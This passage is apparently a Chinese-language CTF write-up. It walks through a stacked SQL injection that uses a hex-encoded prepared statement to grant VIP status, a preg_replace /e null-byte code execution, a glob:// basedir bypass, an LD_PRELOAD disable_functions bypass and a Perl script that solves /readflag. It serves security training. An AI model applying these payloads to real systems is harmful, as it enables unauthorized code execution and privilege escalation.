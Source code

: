 ```
update users set isvip=1 where username='ch3n9w'

';set @a=0x757064617465207573657273207365742069737669703d3120776865726520757365726e616d653d2763683473657227;prepare kk from @a;execute kk;'
```

![image-20200130164043550](/images/image-20200130164043550.png)

这样我就是vip了, 可以使用replace功能了, 这个在源码中其实就是``preg_replace``.

```php
$content = addslashes(preg_replace("/" . $_POST['find'] . "/", $_POST['replace'], $row['content']));
```

传入参数

```
find=/e%00
replace=phpinfo();
```

就执行成功了, 写一个shell进去先. 然后发现system类函数都被禁用了, 而且还有basedir限制, 在``init_set``被禁止的情况下, 可以使用``glob``协议

```php
if ($dh = opendir("glob:///*")) {while (($file = readdir($dh)) !== false) {echo "$file\n";}closedir($dh);}
```

发现根目录有``/readflag``和``/flag``, 接下来使用``LD_PRELOAD``来绕过``disable_function``的限制, 在``disable_function``中看到``mail``函数都被禁用了, 而且没有安装``imagemagick`` , 可以考虑使用``error_log``来触发, 问题是这题目在buuoj经过了魔改, /readflag不会直接给出flag而是给出了一道计算题, 回答正确之后才会给出flag, 寻找一个perl脚本来执行, 这是*ctf的一道题目的perl脚本

```perl
use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```
